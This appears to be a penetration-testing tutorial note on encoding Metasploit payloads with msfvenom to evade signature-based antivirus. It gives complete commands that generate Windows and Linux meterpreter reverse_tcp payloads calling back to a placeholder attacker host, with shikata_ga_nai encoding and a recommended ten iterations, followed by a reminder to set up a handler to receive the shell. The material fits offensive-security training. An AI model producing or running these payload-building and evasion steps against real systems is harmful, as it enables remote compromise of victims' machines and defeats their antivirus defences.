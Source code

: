 # Encoding Payloads With Msfvenom

* Given that this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be cognisant of AV detection.
* Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.
* We can evade older signature based AV solutions by encoding our payloads.
* Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

## Shellcode

* Shellcode is a piece of code typically used as a payload for exploitation
* It gets its name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## Practice Demo

### List Encoders

* "<mark style="color:yellow;">msfvenom --list encoders</mark>"

### Generate an encoded Windows x86 payload

* "<mark style="color:yellow;">msfvenom -p windows/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -e x86/shikata\_ga\_nai -f exe > 'nameofpayload.extension'</mark>"

### Defining the number of iterations to encode

Add the "<mark style="color:red;">-i</mark>" flag and the number of iterations

Recommended is 10.

### Generate an encoded Linux x86 payload

* "<mark style="color:yellow;">msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=ATTACKERIP LPORT=PORT -i 10 -e x86/shikata\_ga\_nai -f elf > 'nameoffile.extension'</mark>"

Don't forget to setup the msf multi/Handler to receive the connection
